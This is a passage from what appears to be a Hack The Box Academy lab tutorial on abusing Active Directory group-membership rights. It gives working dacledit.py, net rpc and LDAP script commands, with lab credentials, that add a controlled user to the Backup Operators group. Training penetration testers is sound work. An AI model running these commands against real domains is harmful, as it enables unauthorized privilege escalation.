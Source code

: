 
---
---
When an attacker controls a privileged user account with the ability to edit a group's member attribute, they can effectively add new users to that group. This attack/abuse is possible when the controlled account has `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights`, or `Self-Membership` over the target group.
## Identifying Vulnerable Groups

We can use `BloodHound` to determine if we have those privileges via the [AddMembers](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addmembers) edge:

![addmember_bloodhound.png](https://academy.hackthebox.com/storage/modules/219/addmember_bloodhound.png)

```bash
python3 examples/dacledit.py -principal pedro -target 'Backup Operators' -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```
## Abusing AddMember From Linux

> Using net to Query Group Membership

```shell
net rpc group members 'Backup Operators' -U inlanefreight.local/pedro%SecuringAD01 -S 10.129.205.81
```

> Using net to Add Pedro to Backup Operators

```bash
net rpc group addmem 'Backup Operators' pedro -U inlanefreight.local/pedro%SecuringAD01 -S 10.129.205.81
```

We got access denied because `net` doesn't allow us to abuse group membership with `Self-Membership` rights. For such cases, an alternative is to use the LDAP protocol when we are trying to change a group's membership. Let us create a Python script to modify the group membership using LDAP. For this example, we will use the [addusertogroup](https://github.com/juliourena/ActiveDirectoryScripts/blob/main/Python/addusertogroup.py) Python script that utilizes the [ldap3 library](https://ldap3.readthedocs.io/en/latest/):

> Using LDAP for Adding a User to a Group

```bash
python3 addusertogroup.py -d inlanefreight.local -g "Backup Operators" -a pedro -u pedro -p SecuringAD01
```

> Query Group Membership

```bash
 net rpc group members 'Backup Operators' -U inlanefreight.local/pedro%SecuringAD01 -S 10.129.205.81
```

